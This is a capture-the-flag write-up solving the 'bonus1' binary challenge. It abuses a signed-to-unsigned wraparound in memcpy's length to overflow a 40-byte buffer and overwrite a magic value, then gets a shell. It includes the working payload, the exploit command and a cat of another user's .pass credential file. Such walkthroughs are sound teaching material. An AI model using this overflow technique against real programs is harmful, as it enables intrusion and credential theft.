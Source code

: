 # Bonus 1

## Initial Context

- One file: `bonus1`

## Solving the Challenge

The program expects a number bellow 10, and a buffer overflow.
`n` bytes will be copied from the second argument to a buffer.
If the buffer overflows, the number value is changed and must match `1464814662` to get access to a shell.

Since we need to write `44 bytes` and the number can only goes up to `9`, we have to overflow a negative value as the number is **multiplied by `4`** for the `memcpy`.

Since the size argument of `memcpy` is a `size_t` which is `unsigned`, we need to take that into account.

```c
UINT_MAX / 4 = 1073741823
(or 4294967295 / 4 = 1073741823.75 to be exact)
```

`1073741823`, negated and multiplied by 4 gives back `4` after underflow.
By adding (or subtracting since we are negative) `10` to the operation, we get our `44`.

```c
-((UINT_MAX / 4) - 10) = -1073741813
```

A small demo code is [available here](./Ressources/test.c).

To craft the second argument, its pretty simple:

```python
# padding of 40 for original buffer size
"A" * 40

# 1464814662 in LE
+ "\x46\x4c\x4f\x57"
```

We can send it to the vulnerable program:

```bash
$ ./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
<flag>
```

